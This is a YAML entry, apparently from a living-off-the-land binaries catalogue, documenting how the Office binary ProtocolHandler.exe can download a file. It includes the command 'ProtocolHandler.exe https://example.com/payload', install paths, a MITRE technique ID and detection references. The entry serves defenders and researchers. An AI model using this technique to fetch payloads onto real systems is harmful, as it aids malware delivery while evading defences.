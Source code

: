```yaml
---
Name: ProtocolHandler.exe
Description: Microsoft Office binary
Author: Nir Chako
Created: 2022-07-24
Commands:
  - Command: ProtocolHandler.exe https://example.com/payload
    Description: Downloads payload from remote server
    Usecase: "It will open the specified URL in the default web browser, which (if the URL points to a file) will often result in the file being downloaded to the user's Downloads folder (without user interaction)"
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office16\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\ProtocolHandler.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\ProtocolHandler.exe
  - Path: C:\Program Files\Microsoft Office\Office15\ProtocolHandler.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_lolbin_protocolhandler_download.yml
  - IOC: Suspicious Office application Internet/network traffic
Acknowledgement:
  - Person: Nir Chako (Pentera)
    Handle: '@C_h4ck_0'
---
```

